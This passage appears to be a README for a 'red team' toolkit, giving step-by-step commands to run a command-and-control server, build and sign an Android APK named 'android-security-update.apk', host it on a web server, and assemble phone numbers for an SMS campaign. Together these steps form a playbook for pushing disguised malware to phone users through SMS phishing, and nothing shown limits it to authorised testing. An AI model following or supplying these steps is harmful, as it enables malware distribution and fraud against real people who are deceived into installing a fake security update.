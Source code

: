 ### **Production Deployment with Gunicorn:**
```bash
pip install gunicorn
gunicorn -w 4 -b 0.0.0.0:5000 api_endpoints:app
```

### **Monitor Logs:**
```bash
tail -f /var/log/redteam/c2_server.log
```

---

## **📦 Step 4: APK Generation & Hosting**

### **Generate APK:**
```bash
cd apk_generator/
python3 android_apk_generator.py
```

### **Sign APK (Required for Android):**
```bash
# Generate keystore
keytool -genkey -v -keystore release-key.keystore -alias android -keyalg RSA -keysize 2048 -validity 10000

# Sign APK
jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore release-key.keystore android-security-update.apk android
```

### **Host APK File:**
```bash
# Copy to web server
cp android-security-update.apk /var/www/html/
chmod 644 /var/www/html/android-security-update.apk
```

---

## **📱 Step 5: SMS Campaign Setup**

### **Prepare Phone Number List:**
```bash
# Create phone_numbers.csv
echo "phone_number,region" > phone_numbers.csv
echo "+12025551234,dc_metro" >> phone_numbers.csv
echo "+13015551234,maryland" >> phone_numbers.csv
```
